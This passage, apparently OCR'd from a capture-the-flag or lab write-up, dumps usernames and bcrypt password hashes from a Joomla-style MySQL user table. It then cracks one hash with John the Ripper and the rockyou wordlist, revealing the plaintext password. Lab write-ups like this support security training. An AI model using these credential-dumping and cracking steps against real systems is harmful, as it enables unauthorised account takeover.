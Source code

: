 ```bash
71 rows in set (0.00 sec)

mysql> describe sd4fg_users;
+---------------+---------------+------+-----+---------+----------------+
| Field         | Type          | Null | Key | Default | Extra          |
+---------------+---------------+------+-----+---------+----------------+
| id            | int           | NO   | PRI | NULL    | auto_increment |
| name          | varchar(400)  | NO   | MUL |         |                |
| username      | varchar(150)  | NO   | UNI |         |                |
| email         | varchar(100)  | NO   | MUL |         |                |
| password      | varchar(100)  | NO   |     |         |                |
| block         | tinyint       | NO   | MUL | 0       |                |
| sendEmail     | tinyint       | YES  |     | 0       |                |
| registerDate  | datetime      | NO   |     | NULL    |                |
| lastvisitDate | datetime      | YES  |     | NULL    |                |
| activation    | varchar(100)  | NO   |     |         |                |
| params        | text          | NO   |     | NULL    |                |
| lastResetTime | datetime      | YES  |     | NULL    |                |
| resetCount    | int           | NO   |     | 0       |                |
| otpKey        | varchar(1000) | NO   |     |         |                |
| otep          | varchar(1000) | NO   |     |         |                |
| requireReset  | tinyint       | NO   |     | 0       |                |
| authProvider  | varchar(100)  | NO   |     |         |                |
+---------------+---------------+------+-----+---------+----------------+
17 rows in set (0.01 sec)

mysql> select username,password from sd4fg_users;
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| lewis    | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |
| logan    | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |
+----------+--------------------------------------------------------------+
2 rows in set (0.00 sec)
```

Let's try to crack it:

```bash
❯ cat logan.hash
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: logan.hash
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12
───────┴────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
❯ john -w=/usr/share/wordlists/rockyou.txt logan.hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tequieromucho    (?)     
1g 0:00:00:09 DONE (2024-04-27 12:28) 0.1034g/s 145.1p/s 145.1c/s 145.1C/s lacoste..harry
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
